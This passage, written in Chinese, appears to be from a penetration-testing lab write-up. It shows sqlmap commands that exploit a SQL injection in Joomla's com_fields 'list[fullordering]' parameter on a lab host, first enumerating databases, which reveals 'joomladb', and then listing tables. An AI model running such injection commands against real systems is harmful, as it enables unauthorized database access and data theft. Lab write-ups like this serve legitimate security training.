  

### 尝试SQL注入

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20250312232530283](./assets/image-20250312232530283.png)

![image-20250312232533105](./assets/image-20250312232533105.png)

成功获取数据库名

- joomladb

 

接着获取表名

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" --tables -p list[fullordering]
```
